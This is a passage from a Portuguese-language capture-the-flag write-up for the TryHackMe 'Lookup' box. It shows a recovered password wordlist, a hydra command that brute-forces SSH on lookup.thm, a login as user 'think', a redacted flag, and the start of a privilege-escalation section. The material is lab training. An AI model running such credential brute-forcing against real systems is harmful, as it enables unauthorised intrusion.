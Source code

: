 Transferimos todas as senhas contidas no arquivo .passwords para um arquivo local. No total, temos 49 senhas.

```shell
┌──(root㉿estudos)-[/home/alex/Desktop]
└─# wc -l wordlist_think             
49 wordlist_think
```

Sabemos que a porta do serviço `ssh` está ativa. Vamos tentar realizar o acesso utilizando essas senhas.

```shell
hydra -l think -P wordlist_think ssh://lookup.thm 
```

![hydra](/assets/img/posts/2025/02/lookup/hydra.png)

Obtemos a senha correta, agora vamos realizar o acesso via `SSH` .

```shell
┌──(root㉿estudos)-[/home/alex/Desktop]
└─# ssh think@lookup.thm 
think@lookup:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Nossa primeira flag está no arquivo `user.txt` .

```text
think@lookup:~$ cat user.txt 
38[REDACTED]0e
```

## Escalonando para root

Verificando os arquivos ocultos no mesmo diretório, não identificamos formas de escalar privilégio até o usuário root.

![home think](/assets/img/posts/2025/02/lookup/home_think.png)
